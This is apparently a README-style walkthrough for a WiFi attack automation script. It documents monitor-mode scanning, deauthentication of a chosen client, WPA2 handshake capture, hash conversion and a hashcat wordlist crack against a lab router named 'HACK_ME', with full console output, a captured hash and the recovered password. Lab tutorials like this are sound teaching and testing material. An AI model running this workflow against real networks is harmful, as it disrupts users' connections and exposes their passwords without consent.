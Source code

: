 # Detailed Instructions for Using the "wifi-attack-automation-tool"

Before running the script `wifi-attack-automation-tool.py`, it is essential to have **root privileges**, as the applications used by the script require these permissions.

Once the necessary privileges have been obtained, proceed to execute the script using the following command:

```
# wifi-attack-automation-tool.py
```

The script itself will verify whether the required **Python packages and system tools** are installed for proper operation.

```
# ./wifi-attack-automation-tool.py 
[2025-06-27 20:27:56.685] <inf> Verifying required Python packages:
[2025-06-27 20:27:56.685] <inf> print_helper_logger is installed
[2025-06-27 20:27:56.685] <inf> scapy is installed
[2025-06-27 20:27:56.685] <inf> deauth_lib is available
[2025-06-27 20:27:56.685] <inf> All required Python packages are ready
[2025-06-27 20:27:56.948] <inf> Verifying required tools:
[2025-06-27 20:27:56.948] <inf> iw found
[2025-06-27 20:27:56.948] <inf> ifconfig found
[2025-06-27 20:27:56.949] <inf> iwconfig found
[2025-06-27 20:27:56.949] <inf> airodump-ng found
[2025-06-27 20:27:56.949] <inf> hcxpcapngtool found
[2025-06-27 20:27:56.949] <inf> hashcat found
[2025-06-27 20:27:56.949] <inf> All tools are ready. System check passed
[2025-06-27 20:27:56.955] <inf> Interfaces that support monitor mode:
[2025-06-27 20:27:56.955] <inf> 1.   wlx00e0202d05b8
Select an interface by number: 1
```

Next, a list of available **network interfaces capable of monitor mode** will be displayed. You must select the desired one; in our case, it is the interface named `wlx00e0202d05b8`, so we choose **option number 1**.

At this point, the script will:
- Configure the selected interface in **monitor mode**.
- Prepare the environment to scan available wireless networks, including:
  - Access Points (AP)
  - Devices connected to them.

```
Select an interface by number: 1
[2025-06-27 20:27:58.718] <inf> You selected: wlx00e0202d05b8
[2025-06-27 20:27:58.737] <inf> 🔻 ifconfig down: OK
[2025-06-27 20:27:58.739] <inf> 📡 iwconfig monitor: OK
[2025-06-27 20:27:58.743] <inf> 🔺 ifconfig up: OK
[2025-06-27 20:27:58.743] <inf> Press [Enter] to begin scanning with airodump-ng...
[2025-06-27 20:27:58.743] <inf> You will run airodump-ng in new window
[2025-06-27 20:27:58.743] <inf> When you're done scanning, press CTRL+C there to stop
```

After pressing [Enter], `airodump-ng` starts to run in order to begin analyzing WiFi devices connected to access points.

```
 CH  1 ][ Elapsed: 12 s ][ 2025-06-27 20:28 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 D0:57:94:70:24:76   -1        0        0    0  -1   -1                    <length:  0>
 CC:D4:A1:83:05:2F   -1        0        0    0  -1   -1                    <length:  0>
 88:DE:7C:A2:91:9F   -1        0        0    0  -1   -1                    <length:  0>
 60:8D:26:FA:ED:11   -1        0        0    0  -1   -1                    <length:  0>
 DC:51:93:D5:0A:F2   -1        0        0    0  -1   -1                    <length:  0>
 2C:96:82:DD:4F:80  -52       38        4    0   6  648   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80
 EC:BE:DD:AD:08:96  -60       44       12    0   9  195   WPA2 CCMP   PSK  HACK_ME
 34:60:F9:6A:95:62  -68       39        2    0   6  130   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80_EXT
 F4:1E:57:06:AA:F3  -69       19        6    0   1  360   WPA3 CCMP   SAE  OSCVER

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 60:8D:26:FA:ED:11  CC:8C:BF:3C:38:05  -57    0 - 1     13      107     
 (not associated)   68:A0:3E:4E:E3:F9  -61    0 - 1      0       13    
 2C:96:82:DD:4F:80  EC:0B:AE:6E:CE:B1  -57    0 - 1e     0        1   
 2C:96:82:DD:4F:80  F4:CE:46:52:FD:7E  -73   54e- 1      0        3   
 2C:96:82:DD:4F:80  36:60:F9:0A:95:62  -73    0 - 1e     0        2   
 EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -51    0 - 1e   528       49    
 F4:1E:57:06:AA:F3  EE:12:4A:F6:F6:4E  -33    0 -24      0        6   
 F4:1E:57:06:AA:F3  44:07:0B:A9:BD:11  -57    0 - 1e     0        2
```

Once the **target network** has been identified (for example, the AP `HACK_ME` with BSSID `EC:BE:DD:AD:08:96`), we also select the **associated device** to which we will send **DeAuth packets**. In this example, the device `F6:B1:11:45:98:25`.

The objective is to **force its disconnection** in order to capture the **handshake** when it attempts to reconnect.

By stopping the scan with `Ctrl+C`, the script will analyze the devices connected to valid access points and display a list of them.

```
Quitting...
[2025-06-27 20:28:17.570] <wrn> (airodump-ng) Execution interrupted by user (CTRL+C)
[2025-06-27 20:28:17.570] <inf> 📋 Available targets with valid channels:
[2025-06-27 20:28:17.570] <inf> 1) F4:CE:46:52:FD:7E → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
[2025-06-27 20:28:17.570] <inf> 2) F6:B1:11:45:98:25 → BSSID: EC:BE:DD:AD:08:96 (Channel 9)
[2025-06-27 20:28:17.570] <inf> 3) EC:0B:AE:6E:CE:B1 → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
Enter the number of the client to target:
```

We will then be prompted to **select the device to attack**, i.e., the one to which we will send the DeAuth packets. In this case, we select **option number 2**.

```
Enter the number of the client to target: 2
[2025-06-27 20:28:20.822] <inf> 🎯 Target selected: F6:B1:11:45:98:25 → AP: EC:BE:DD:AD:08:96 on channel 9
Enter number of deauth packets to send [default: 25]:
```

Next, we need to specify **how many DeAuth packets** we want to send:
- If no value is entered, the **default** is **25 packets**.
- By default, they will be sent **every 0.5 seconds**.

Once the number of packets is confirmed:
- A process will open using `airodump-ng` to **listen on the channel** corresponding to the selected AP (in this example, **channel 9**).
- Simultaneously, another process will start to **send the DeAuth packets**.

```
 CH  9 ][ Elapsed: 12 s ][ 2025-06-27 20:28 ][ WPA handshake: EC:BE:DD:AD:08:96

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 EC:BE:DD:AD:08:96  -61   0       89       13    0   9  195   WPA2 CCMP   PSK  HACK_ME

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -45    1e-11      0       60  PMKID
 EC:BE:DD:AD:08:96  CC:8C:BF:3C:38:05  -61    0 - 1     36       24    
```

After the attack is completed, the **capture process will automatically close**.

```
Sent 25 packets.
[2025-06-27 20:28:36.476] <inf> Stopping handshake capture...
```

Subsequently, the tool `hcxpcapngtool` will be used to **convert the `.cap` file generated by `airodump-ng` into a hash format**.

```
[2025-06-27 20:28:36.492] <inf> Convert pcap to hash using hcxpcapngtool
[2025-06-27 20:28:36.500] <inf> (hcxpcapngtool) Conversion successful: /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000
[2025-06-27 20:28:36.500] <inf> /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000: WPA*01*70b128dd915b8008211276e7673bfcae*ecbeddad0896*f6b111459825*4841434b5f4d45***
WPA*02*99ce70ae05369a5d6ec44d7994b8c057*ecbeddad0896*f6b111459825*4841434b5f4d45*9d1be82bcaf2959f56f5f8590cf74329ed4366a4ff8f4f9ee8e65149bd079ef6*0103007502010a0000000000000000001214224b234a0f9cad89d23411447194488f4f405dfda032e44930ec793b934e8e000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac020100000fac040100000fac020000*00
```

The next step is to select the wordlist you want to use for brute force:

```
[2025-06-27 20:28:36.500] <inf> Trying to crack the hash using Hashcat
[2025-06-27 20:28:36.500] <inf> Available wordlists:
[2025-06-27 20:28:36.500] <inf> 1. rockyou.txt
[2025-06-27 20:28:36.500] <inf> 2. alleged-gmail-with-count.txt
[2025-06-27 20:28:36.500] <inf> 3. 500-worst-passwords.txt
[2025-06-27 20:28:36.500] <inf> 4. hotmail.txt
[2025-06-27 20:28:36.500] <inf> 5. No search password
Select the wordlist you want to use: 1
```

Once you have selected the wordlist, and with the hash file ready, the tool `hashcat` will be used along with the password list `rockyou.txt` to **perform a brute-force attack** in an attempt to **crack the password**.

> ⏳ **Note:** The time required will depend on the size of the wordlist.

```
[2025-06-27 20:28:50.588] <inf> You selected: /home/oscargomezf/GIT/wifi-attack-automation-tool/wordlists/rockyou.txt
[2025-06-26 20:28:50.798] <inf> This task may take several minutes...
[2025-06-26 23:41:57.437] <wrn> Password found: pipeylaura
```

Finally, if the process is successful, the **recovered password will be displayed** (for example, `pipeylaura`).

As a **final step**, the script will **return the WiFi interface to its original state**.

```
[2025-06-26 23:41:57.437] <inf> Restoring interface to mode: managed
```

---

## Additional Notes

- **Note 1:** It is recommended to run the script within a **Python virtual environment** to avoid dependency conflicts.

- **Note 2:** The router with SSID `HACK_ME` has been prepared **exclusively for this practice**.
  - **Security:** WPA + WPA2
  - **Key:** Randomly selected from the `rockyou.txt` wordlist: pipeylaura
